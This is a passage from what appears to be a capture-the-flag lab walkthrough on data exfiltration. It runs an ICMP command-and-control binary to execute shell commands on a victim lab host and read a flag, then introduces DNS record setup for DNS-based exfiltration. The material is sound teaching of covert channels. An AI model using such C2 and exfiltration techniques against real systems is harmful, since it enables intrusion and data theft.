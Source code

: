 Note that we specify the interface to communicate over and the destination IP of the server-side.

Next, log in to the JumpBox and execute theÂ icmp-cncÂ binary to communicate with the victim,Â our ICMP-Host.Â Once the execution runs correctly, a communication channel is established over the ICMP protocol. Now we are ready to send the command that needs to be executed on the victim machine.Â 

The data that needs to be transferred  

```markup
thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: hostname
hostname
shell: icmp-host
```

Similar to the client-side binary, ensure to select the interface for the communication as well as the destination IP.Â As the previous terminal shows, we requested to execute theÂ hostnameÂ command, and we receivedÂ icmp-host.

To confirm that all communications go through the ICMP protocol, we capture the network traffic during the communication using tcpdump as the following:

![Capture ICMP traffic using tcpdump](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b7df6f586e47769bf2addbee68d69cdc.png)

Once we follow the steps, we get our flag:

```
thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: getFlag
shell: [+] Check the flag: /tmp/flag.txt
shell: cat /tmp/flag.txt
shell: THM{g0t-1cmp-p4k3t!}
```

# Dns Configurations
---

## DNSÂ Configuration

To perform exfiltration via theÂ DNSÂ protocol, you need to control a domain name and set upÂ DNSÂ records, including NS, A, or TXT. Thus, we provide a web interface to make it easy for you to add and modify theÂ DNSÂ records. The following domain name is set up and ready for theÂ DNSÂ exfiltration task:Â tunnel.com.

To access the website, you may visit the following link:Â http://10.10.39.16/Â orÂ https://10-10-39-16.p.thmlabs.com/Â without the need for aÂ VPN.

![THM DNS Changer - The Main web interface](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b8b4c25e0eb4dd04f1aea8596bf9319e.png)

Once you chooseÂ the domain name, you can addÂ DNSÂ records and test and reset theÂ DNSÂ configuration if something goes wrong.

![DNS Management for tunnel.com](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/af468d0202712ac1890f5dacb135e532.png)  
